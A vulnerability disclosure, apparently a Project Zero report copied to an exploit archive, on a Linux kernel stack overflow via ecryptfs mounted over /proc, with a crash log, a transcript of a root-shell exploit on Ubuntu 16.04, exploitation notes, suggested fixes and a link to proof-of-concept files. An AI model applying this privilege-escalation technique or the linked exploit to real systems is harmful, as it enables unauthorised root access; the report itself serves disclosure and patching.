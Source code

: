 Source: https://bugs.chromium.org/p/project-zero/issues/detail?id=836

Stacking filesystems, including ecryptfs, protect themselves against
deep nesting, which would lead to kernel stack overflow, by tracking
the recursion depth of filesystems. E.g. in ecryptfs, this is
implemented in ecryptfs_mount() as follows:

	s->s_stack_depth = path.dentry->d_sb->s_stack_depth + 1;

	rc = -EINVAL;
	if (s->s_stack_depth > FILESYSTEM_MAX_STACK_DEPTH) {
		pr_err("eCryptfs: maximum fs stacking depth exceeded\n");
		goto out_free;
	}


The files /proc/$pid/{mem,environ,cmdline}, when read, access the
userspace memory of the target process, involving, if necessary,
normal pagefault handling. If it was possible to mmap() them, an
attacker could create a chain of e.g. /proc/$pid/environ mappings
where process 1 has /proc/2/environ mapped into its environment area,
process 2 has /proc/3/environ mapped into its environment area and so
on. A read from /proc/1/environ would invoke the pagefault handler for
process 1, which would invoke the pagefault handler for process 2 and
so on. This would, again, lead to kernel stack overflow.


One interesting fact about ecryptfs is that, because of the encryption
involved, it doesn't just forward mmap to the lower file's mmap
operation. Instead, it has its own page cache, maintained using the
normal filemap helpers, and performs its cryptographic operations when
dirty pages need to be written out or when pages need to be faulted
in. Therefore, not just its read and write handlers, but also its mmap
handler only uses the lower filesystem's read and write methods.
This means that using ecryptfs, you can mmap [decrypted views of]
files that normally wouldn't be mappable.

Combining these things, it is possible to trigger recursion with
arbitrary depth where:

a reading userspace memory access in process A (from userland or from
    copy_from_user())
causes a pagefault in an ecryptfs mapping in process A, which
causes a read from /proc/{B}/environ, which
causes a pagefault in an ecryptfs mapping in process B, which
causes a read from /proc/{C}/environ, which
causes a pagefault in an ecryptfs mapping in process C, and so on.

On systems with the /sbin/mount.ecryptfs_private helper installed
(e.g. Ubuntu if the "encrypt my home directory" checkbox is ticked
during installation), this bug can be triggered by an unprivileged
user. The mount helper considers /proc/$pid, where $pid is the PID of
a process owned by the user, to be a valid mount source because the
directory is "owned" by the user.

I have attached both a generic crash PoC and a build-specific exploit
that can be used to gain root privileges from a normal user account on
Ubuntu 16.04 with kernel package linux-image-4.4.0-22-generic, version
4.4.0-22.40, uname "Linux user-VirtualBox 4.4.0-22-generic #40-Ubuntu
SMP Thu May 12 22:03:46 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux".

dmesg output of the crasher:

```
[   80.036069] BUG: unable to handle kernel paging request at fffffffe4b9145c0
[   80.040028] IP: [<ffffffff810c9a33>] cpuacct_charge+0x23/0x40
[   80.040028] PGD 1e0d067 PUD 0
[   80.040028] Thread overran stack, or stack corrupted
[   80.040028] Oops: 0000 [#1] SMP
[   80.040028] Modules linked in: vboxsf drbg ansi_cprng xts gf128mul dm_crypt snd_intel8x0 snd_ac97_codec ac97_bus snd_pcm snd_seq_midi snd_seq_midi_event snd_rawmidi vboxvideo snd_seq ttm snd_seq_device drm_kms_helper snd_timer joydev drm snd fb_sys_fops soundcore syscopyarea sysfillrect sysimgblt vboxguest input_leds i2c_piix4 8250_fintek mac_hid serio_raw parport_pc ppdev lp parport autofs4 hid_generic usbhid hid psmouse ahci libahci e1000 pata_acpi fjes video
[   80.040028] CPU: 0 PID: 2135 Comm: crasher Not tainted 4.4.0-22-generic #40-Ubuntu
[   80.040028] Hardware name: innotek GmbH VirtualBox/VirtualBox, BIOS VirtualBox 12/01/2006
[   80.040028] task: ffff880035443200 ti: ffff8800d933c000 task.ti: ffff8800d933c000
[   80.040028] RIP: 0010:[<ffffffff810c9a33>]  [<ffffffff810c9a33>] cpuacct_charge+0x23/0x40
[   80.040028] RSP: 0000:ffff88021fc03d70  EFLAGS: 00010046
[   80.040028] RAX: 000000000000dc68 RBX: ffff880035443260 RCX: ffffffffd933c068
[   80.040028] RDX: ffffffff81e50560 RSI: 000000000013877a RDI: ffff880035443200
[   80.040028] RBP: ffff88021fc03d70 R08: 0000000000000000 R09: 0000000000010000
[   80.040028] R10: 0000000000002d4e R11: 00000000000010ae R12: ffff8802137aa200
[   80.040028] R13: 000000000013877a R14: ffff880035443200 R15: ffff88021fc0ee68
[   80.040028] FS:  00007fbd9fadd700(0000) GS:ffff88021fc00000(0000) knlGS:0000000000000000
[   80.040028] CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
[   80.040028] CR2: fffffffe4b9145c0 CR3: 0000000035415000 CR4: 00000000000006f0
[   80.040028] Stack:
[   80.040028]  ffff88021fc03db0 ffffffff810b4b83 0000000000016d00 ffff88021fc16d00
[   80.040028]  ffff880035443260 ffff8802137aa200 0000000000000000 ffff88021fc0ee68
[   80.040028]  ffff88021fc03e30 ffffffff810bb414 ffff88021fc03dd0 ffff880035443200
[   80.040028] Call Trace:
[   80.040028]  <IRQ>
[   80.040028]  [<ffffffff810b4b83>] update_curr+0xe3/0x160
[   80.040028]  [<ffffffff810bb414>] task_tick_fair+0x44/0x8e0
[   80.040028]  [<ffffffff810b1267>] ? sched_clock_local+0x17/0x80
[   80.040028]  [<ffffffff810b146f>] ? sched_clock_cpu+0x7f/0xa0
[   80.040028]  [<ffffffff810ad35c>] scheduler_tick+0x5c/0xd0
[   80.040028]  [<ffffffff810fe560>] ? tick_sched_handle.isra.14+0x60/0x60
[   80.040028]  [<ffffffff810ee961>] update_process_times+0x51/0x60
[   80.040028]  [<ffffffff810fe525>] tick_sched_handle.isra.14+0x25/0x60
[   80.040028]  [<ffffffff810fe59d>] tick_sched_timer+0x3d/0x70
[   80.040028]  [<ffffffff810ef282>] __hrtimer_run_queues+0x102/0x290
[   80.040028]  [<ffffffff810efa48>] hrtimer_interrupt+0xa8/0x1a0
[   80.040028]  [<ffffffff81052fa8>] local_apic_timer_interrupt+0x38/0x60
[   80.040028]  [<ffffffff81827d9d>] smp_apic_timer_interrupt+0x3d/0x50
[   80.040028]  [<ffffffff81826062>] apic_timer_interrupt+0x82/0x90
[   80.040028]  <EOI>
[   80.040028] Code: 0f 1f 84 00 00 00 00 00 66 66 66 66 90 48 8b 47 08 48 8b 97 78 07 00 00 55 48 63 48 10 48 8b 52 60 48 89 e5 48 8b 82 b8 00 00 00 <48> 03 04 cd 80 42 f3 81 48 01 30 48 8b 52 48 48 85 d2 75 e5 5d
[   80.040028] RIP  [<ffffffff810c9a33>] cpuacct_charge+0x23/0x40
[   80.040028]  RSP <ffff88021fc03d70>
[   80.040028] CR2: fffffffe4b9145c0
[   80.040028] fbcon_switch: detected unhandled fb_set_par error, error code -16
[   80.040028] fbcon_switch: detected unhandled fb_set_par error, error code -16
[   80.040028] ---[ end trace 616e3de50958c35b ]---
[   80.040028] Kernel panic - not syncing: Fatal exception in interrupt
[   80.040028] Shutting down cpus with NMI
[   80.040028] Kernel Offset: disabled
[   80.040028] ---[ end Kernel panic - not syncing: Fatal exception in interrupt
```

example run of the exploit, in a VM with 4 cores, with Ubuntu 16.04 installed:

```
user@user-VirtualBox:/media/sf_vm_shared/crypt_endless_recursion/exploit$ ls
compile.sh  exploit.c  hello.c  suidhelper.c
user@user-VirtualBox:/media/sf_vm_shared/crypt_endless_recursion/exploit$ ./compile.sh
user@user-VirtualBox:/media/sf_vm_shared/crypt_endless_recursion/exploit$ ls
compile.sh  exploit  exploit.c  hello  hello.c  suidhelper  suidhelper.c
user@user-VirtualBox:/media/sf_vm_shared/crypt_endless_recursion/exploit$ ./exploit
all spammers ready
recurser parent ready
spam over
fault chain set up, faulting now
writing stackframes
stackframes written
killing 2494
post-corruption code is alive!
children should be dead
coredump handler set. recurser exiting.
going to crash now
suid file detected, launching rootshell...
we have root privs now...
root@user-VirtualBox:/proc# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare),999(vboxsf),1000(user)
```

(If the exploit crashes even with the right kernel version, try
restarting the machine. Also, ensure that no program like top/htop/...
is running that might try to read process command lines. Note that
the PoC and the exploit don't really clean up after themselves and
leave mountpoints behind that prevent them from re-running without
a reboot or manual unmounting.)

Note that Ubuntu compiled their kernel with
CONFIG_SCHED_STACK_END_CHECK turned on, making it harder than it used
to be in the past to not crash the kernel while exploiting this bug,
and an overwrite of addr_limit would be useless because at the
time the thread_info is overwritten, there are multiple instances of
kernel_read() on the stack. Still, the bug is exploitable by carefully
aligning the stack so that the vital components of thread_info are
preserved, stopping with an out-of-bounds stack pointer and
overwriting the thread stack using a normal write to an adjacent
allocation of the buddy allocator.

Regarding the fix, I think the following would be reasonable:

 - Explicitly forbid stacking anything on top of procfs by setting its
   s_stack_depth to a sufficiently large value. In my opinion, there
   is too much magic going on inside procfs to allow stacking things
   on top of it, and there isn't any good reason to do it. (For
   example, ecryptfs invokes open handlers from a kernel thread
   instead of normal user process context, so the access checks inside
   VFS open handlers are probably ineffective - and procfs relies
   heavily on those.)

 - Forbid opening files with f_op->mmap==NULL through ecryptfs. If the
   lower filesystem doesn't expect to be called in pagefault-handling
   context, it probably shouldn't be called in that context.

 - Create a dedicated kernel stack cache outside of the direct mapping
   of physical memory that has a guard page (or a multi-page gap) at
   the bottom of each stack, and move the struct thread_info to a
   different place (if nothing else works, the top of the stack, above
   the pt_regs).
   While e.g. race conditions are more common than stack overflows in
   the Linux kernel, the whole vulnerability class of stack overflows
   is easy to mitigate, and the kernel is sufficiently complicated for
   unbounded recursion to emerge in unexpected places - or perhaps
   even for someone to discover a way to create a stack with a bounded
   length that is still too high. Therefore, I believe that guard
   pages are a useful mitigation.
   Nearly everywhere, stack overflows are caught using guard pages
   nowadays; this includes Linux userland, but also {### TODO ###}
   and, on 64-bit systems, grsecurity (using GRKERNSEC_KSTACKOVERFLOW).

Oh, and by the way: The `BUG_ON(task_stack_end_corrupted(prev))`
in schedule_debug() ought to be a direct panic instead of an oops. At
the moment, when you hit it, you get a recursion between the scheduler
invocation in do_exit() and the BUG_ON in the scheduler, and the
kernel recurses down the stack until it hits something sufficiently
important to cause a panic.

I'm going to send (compile-tested) patches for my first two fix
suggestions and the recursive oops bug. I haven't written a patch for
the guard pages mitigation - I'm not familiar enough with the x86
subsystem for that.


Notes regarding the exploit:

It makes an invalid assumption that causes it to require at least around 6GB of RAM.

It has a trivially avoidable race that causes it to fail on single-core systems after overwriting the coredump handler; if this happens, it's still possible to manually trigger a coredump and execute the suid helper to get a root shell.

The page spraying is pretty primitive and racy; while it works reliably for me, there might be influencing factors that cause it to fail on other people's machines.


Proof of Concept:
https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/39992.zip